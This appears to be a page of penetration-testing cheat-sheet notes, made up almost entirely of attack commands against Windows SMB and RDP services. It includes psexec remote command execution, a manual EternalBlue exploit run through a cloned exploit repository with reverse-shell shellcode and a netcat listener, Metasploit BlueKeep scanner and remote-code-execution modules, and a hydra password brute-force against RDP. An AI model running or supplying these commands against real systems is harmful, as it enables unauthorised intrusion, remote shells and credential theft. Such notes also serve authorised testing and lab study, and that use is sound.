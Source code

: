 ```
```

```
psexec.py <USER>@<TARGET_IP> cmd.exe
```

```
## Manual Exploit - AutoBlue
cd
mkdir tools
cd /home/kali/tools
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git 
cd AutoBlue-MS17-010
pip install -r requirements.txt

cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# LHOST = Host Kali Linux IP
# LPORT = Port Kali will listen for the reverse shell

nc -nvlp 1234 # On attacker VM

cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin
```

**RDP**

```
# RDP
nmap -sV <TARGET_IP>
```

```
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use auxiliary/scanner/rdp/rdp_scanner
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep

set RPORT <PORT>

# ! Kernel crash may be caused !
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

show targets
set target <NUMBER>
set GROOMSIZE 50
```

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<TARGET_IP> -s <PORT>
```
